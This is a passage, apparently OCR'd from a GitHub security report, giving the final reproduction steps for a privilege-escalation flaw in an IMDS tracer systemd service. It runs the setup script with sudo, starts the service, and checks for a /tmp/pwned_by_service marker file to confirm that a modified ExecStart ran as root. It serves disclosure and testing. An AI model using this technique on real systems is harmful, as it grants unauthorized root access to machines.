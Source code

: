          sudo bash activate-tracer-service.sh
          ```
        - Then, start the service:
          ```bash
          sudo systemctl start imds_tracer_tool.service
          ```
    5.  **Verification of Exploit:**
        - Check if the file `/tmp/pwned_by_service` exists on the EC2 instance:
          ```bash
          ls /tmp/pwned_by_service
          ```
        - If the file exists, it confirms that the modified `ExecStart` command in the service file was executed with root privileges when the service started. This demonstrates successful privilege escalation.